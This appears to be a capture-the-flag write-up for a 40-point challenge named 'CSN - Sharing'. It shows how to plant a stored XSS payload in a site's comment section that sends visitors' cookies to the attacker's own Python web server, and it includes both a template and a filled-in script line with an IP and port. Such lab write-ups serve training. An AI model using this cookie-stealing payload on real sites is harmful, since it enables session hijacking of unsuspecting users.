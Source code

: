 # CSN - Sharing

**Description:** CSN har trafik af brugere der logger ind til tider, kan du få dem til at dele lidt? gå til CSN.hkn
**Points:** 40


We're presented with a website which looks like this:
<img src="images/csn-sharing/csnfrontpage.png">

We know that you can perform xss on the page. We also know that there is users that is logging on from time to time - and you need them to share something with you. This challenge is hinting to that you'll need to grab the cookie from the users. 

We're going to make a payload that can steal the cookie from the visitors.
But first you'll need your IP. Type ``ip addr show`` in your terminal. 

<img src="images/csn-sharing/csnshareipaddr.png">

**Using VPN:**
Your IP is the last on the list. The different IPs are divided into small section with a number. Go to the section, where the name of the wireguard config file is present. (my wireguard config is named vregionals) And there you have your IP. 

**Using in browser:** 
Your IP is also the last on the list. The different IPs are divided into small section with a number. Go to the section, where the name "eth0" is present. And there you have your IP. 


Now we need to start a web server on our machine. I recommend using python.

**Python2:** 
```python
python2 -m SimpleHTTPServer xxxx
```

**Python3:**
```python
python3 -m http.server xxxx
```

---

Replace ``xxxx`` which a four digit port. I'll choose 5000 and use Python3
```python
python3 -m http.server 5000
```


Now we're going to create the payload to paste into the comment section.

```JS
<script>document.location='http://IP:PORT/?c='+document.cookie;</script>
```
Replace ``IP`` & ``PORT`` with your IP and the choosen port.

```JS
<script>document.location='http://25.176.242.200:5000/?c='+document.cookie;</script>
```

<img src="images/csn-sharing/csnsharepayload.png">


Post this payload into the comment section on the page and open your terminal.
Wait a bit and then you'll see a new request with the flag as a parameter.

<img src="images/csn-sharing/csnshareusers.png">
